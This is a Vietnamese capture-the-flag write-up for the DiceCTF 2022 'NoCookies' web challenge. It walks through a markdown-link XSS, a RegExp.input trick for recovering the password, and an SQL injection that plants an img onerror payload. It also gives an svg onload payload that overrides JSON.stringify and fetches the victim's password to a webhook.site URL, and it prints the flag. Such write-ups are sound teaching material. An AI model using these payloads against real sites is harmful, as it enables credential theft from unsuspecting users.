 ```yaml
---
title: NoCookies - DiceCTF2022
description: From DiceCTF2022
author: to^
date: 2022-04-08 13:07:00 +0700
categories: [WecSec, CTF, DiceCTF2022]
tags: [sqli, xss]     # TAG names should always be lowercase
img_path: /assets/img/
image:
 src: no_cookies/dicectf_logo.jpg
 alt: DiceCTF logo
 width: 1000
 height: 400
---
```

## _Link challenge_
<https://instancer.mc.ax/no-cookies>

<https://admin-bot.mc.ax/no-cookies>

## _Source code_
[Download](https://github.com/to016/to016.github.io/raw/main/assets/img/no_cookies/no-cookies.zip)

## _Sơ lược về trang web_
![overview](no_cookies/overview.png)
_overview_

- Sẽ có 2 chức năng: Register -> đăng kí account và create note -> tạo note
- Hoạt động không dựa trên cookie mà yêu cầu ta nhập lại username, password mỗi lần thực hiện một hành động nào đó.

Ở phần Create Note thì ta có 2 tùy chọn là Markdown hoặc là Plain.
![Create note](no_cookies/md_pl.png)
_create note option_

## _Phân tích_
### 1. XSS qua markdown option
Đọc qua source code thì ta thấy phần lớn các trang view.html, register.html đều thuộc dạng client side rendering
![markdown note handler](no_cookies/md_handler.png)
_markdown note hander_

Điều đáng chú ý ở đoạn code này là nếu note ta nhập vào có dạng `[blabla](test)` thì sẽ return thẻ a: `<a href = "test">blabla</a>`
Từ đây ta có thể dễ dàng khai thác XSS: ta dùng 2 thuộc tính autofocus và onfocus để trigger nó
```
<a href ="test" autofocus onfocus= "alert`1">
```
Điều đáng buồn là khi ta tạo note:
`(foo)[http://example.com" autofocus=autofocus onfocus="alert(password&#x29;]`
(ở đây ta escape `)` trở thành `&#x29;` để cho regex không làm mất đi `)`)
Gửi note và ấn view xuất hiện pop-up `undefined` 😟

Quay lại source code ta thấy rằng `const password`, được định nghĩa trong một anonymous arrow function và đoạn code được thực thi bên ngoài nó (đến từ HTML event handler)

Nhìn lại source, để ý cách validate password:
```js
const validate = (text) => {
return /^[^$']+$/.test(text ?? '');
}
```
Chỉ đơn giản là kiểm ra sao cho phải có tối thiểu 1 kí tự và không tồn tại `'` hoặc `$`
Mình tìm được một thứ thú vụ về [Regex](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/input). Đại khái là: `RegExp.input` hoặc `RegExp.$_` sẽ trả về chuỗi match với regular expression.

Ví dụ:
```js
var re = /hi/g;
re.test('hi there!');
RegExp.input; // "hi there!"
re.test('foo'); // new test, non-matching
RegExp.$_; // "hi there!"
re.test('hi world!'); // new test, matching
RegExp.$_; // "hi world!"
```

Nhưng tất cả những `.replace()` call từ markdown parsing đã làm thay đổi giá trị của nó (overiding the password) vì vậy ta không thể khai thác thông qua markdown note -> chỉ còn lại con đường plain note.
### 2. XSS qua plain option
![database handler code1](no_cookies/db_handler1.png)
_database handler code1_

![database handler code2](no_cookies/db_handler2.png)
_database handler code2_

Ta có thể thấy trước khi chèn vào DB, note bị replace `<` và `>` gây khó khăn cho việc khai thác.

Nhưng `prepare function` đã giải quyết vấn đề này cho ta, hàm này đơn giản chỉ là replace **lần lượt** `:id, :username, :note, :mode` thành các giá trị tương ứng với nó.
```
{
id: "12345",
username: ":note",
note: ', :mode, 22, 0)-- ',
mode: '<img src=x onerror="alert(RegExp.input)">',
}
```

![sqli poc](no_cookies/sqli.png)
_sqli poc_

## _Khai thác_
![reponse](no_cookies/response.png)
_response_

![result](no_cookies/result.png)
_result_



## _Overwrite "document.querySelector" và "JSON.stringify"_
ở phần này mình sẽ đề cập tới một cách khai thác khác.

Cách này thì vẫn vận dụng sqli như cách trước để chèn xss note vào db nhưng khác ở chỗ xss note sẽ là:
```html
<svg><svg/onload="document.querySelector=function(){JSON.stringify=a=>fetch(`https://webhook.site/1e6c4248-b312-498b-93c3-073ffc762693?`+a.password),arguments.callee.caller()}">
```
Code này thực hiện việc rewrite lại hàm `document.querySelector` và `JSON.stringify`, sau đó gọi `arguments.callee.caller()`

![Exploit](no_cookies/exp.png)

- Line 59 thực hiện gán `innerHTML = Plain note` của ta đồng thời kích hoạt `onload` event của `svg` thực hiện việc ghi đè hàm `document.querySelector`.
- Line 60 gọi tới `document.querySelector` (lúc này là hàm mà ta đã định nghĩa lại): thực hiện ghi đè hàm 
`JSON.stringify` và đồng thời gọi tới `arguments.callee.caller()`.
- Có thể hiểu arguments.callee là chỉ hàm hiện tại đang thực thi -> `document.querySelector` và `arguments.callee.caller()` là hàm gọi tới nó, chính là cái `async ()` bao trọn tất cả code. Hay nói cách khác mục đích của `arguments.callee.caller()` là để chạy lại đoạn code từ 24 – 62 một lần nữa. Lúc này `JSON.stringify` nhận vào một object bao gồm password sẽ thực hiện fetch tới web hook của ta và boom flag!

> dice{curr3nt_st4t3_0f_j4v45cr1pt}
{: .prompt-info  }

## _Tham khảo_
<https://blog.bawolff.net/2022/02/write-up-for-dicectf-2022-nocookies.html>